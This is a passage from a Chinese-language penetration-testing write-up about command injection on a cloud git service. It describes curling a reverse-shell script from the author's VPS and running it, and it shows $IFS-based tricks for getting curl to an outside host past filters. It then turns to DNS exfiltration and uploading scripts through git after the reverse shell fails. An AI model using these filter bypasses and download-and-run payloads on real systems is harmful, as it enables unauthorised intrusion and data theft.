 其中 evil 脚本里面是反弹 shell 的命令，位于 myvpspip/evil 上，通过 curl 下载到本地然后运行脚本，最后别忘了删除。

看到这里，有的小朋友可能会有几个问题：

**1. 你为什么要把这么多条命令写到一个 payload 里，多段执行不好吗，先发送 curl 下载的 payload，然后发送运行的命令，你到底会不会？** 

> 
> 答： 我确实最开始就是这么想的，但是云上的服务都是有负载均衡和集群的，也就是一个前端对应多个后端，与 kafka/spark/es  等自带集群的模式一样。
>
> 在这种模式下，每次可能都是后端某一个服务器运行命令，再通过其他方式保持整个集群同步。也就是意味着，先执行下载命令的 服务器，与第二次执行命令的服务器，不是同一个服务器。当然也不排除有可能两次都是同一个服务器，这个概率与集群大小成反比，我尝试了几次都没成功，遂放弃这个方法。

**2. 为什么要先把 vps 的 ip 赋予一个变量，然后 curl 这个变量，这种写法与直接 curl ip 有什么区别？**

> 答： 这种方法主要是因为该处限制比较严格导致的。可以参考如下场景：
> ```
> curl green-m.me               // 正常使用情况
> curl${IFS}green-m.me          // 不使用空格
> aaa=green-m.me;curl$IFS$aaa   // 不使用空格和{}
> curl$IFSgreen-m.me		    // 不使用空格和{}，报错，提示 bash: curl.com: command not found
> ```
> 第四条命令会报错，因为 shell 会把 $IFSgreen-m 认为是一个变量，而不是分开解析成 $IFS 和 green-m.me。为了解决这个问题，我们只能使用第三条命令的方式来保证 payload 正常运行。

到这里，我们就算是成功绕过了限制，如果能成功访问 vps 的脚本，这个命令执行我们就成功搞定了。

## 0x03 出师不利

一切就绪，监听，运行，仿佛看到了 shell 在向我招手：

What? 居然没弹回来 shell？ 

我的端口孤孤单单的监听着，就像单身二十五年的男人，渴望着爱情的到来。

![/styles/images/snort/p1.png]({{ '/styles/images/fantasy_pentest/1.png' | prepend: site.baseurl }})

冷静了一下，开始思考背后的原因，大概分析了一下，觉得可能有这么几个原因：

- 网络出口是黑白名单机制，vps 不在白名单里。
- git 不能直接出公网，是通过其他代理或者转发出来的，所以 bash 出不来公网，但 git 能出。

虽然这两种情况还是有不少区别，但对于我来说基本没什么区别，在第一种白名单情况下，想弹回来 shell 基本不可能，第二种方式还有可能出来，但拿不到代理设置，命令也有限制，想弹 shell 还是非常困难。

![/styles/images/snort/p1.png]({{ '/styles/images/fantasy_pentest/2.png' | prepend: site.baseurl }})
......

那退一步考虑，既然弹 shell 不行，那我们能不能考虑只拿数据，先把情况摸清楚，毕竟从前面我们就知道 dns 协议是可以出来的。但问题出在命令的限制很大，想执行稍微复杂一点的命令基本不可能，只能依靠把远端脚本下载到本地运行，才能写多行数据。

接下来的问题就变成了，如何把一个含有多条命令的 shell 脚本，传到一个服务器能够直接访问的地方呢？ 换句话说，要么把脚本传到服务器本地，要么把脚本传到内网其他机器上，就这两个思路。

## 0x04 第一次尝试

由于这里是一个 git 服务器，可以托管我们的代码，我们自然的想到可以尝试通过上传文件，将所需的 shell 脚本直接放入服务器中。然后我们再执行 shell 脚本就大功告成了！

### git 元数据
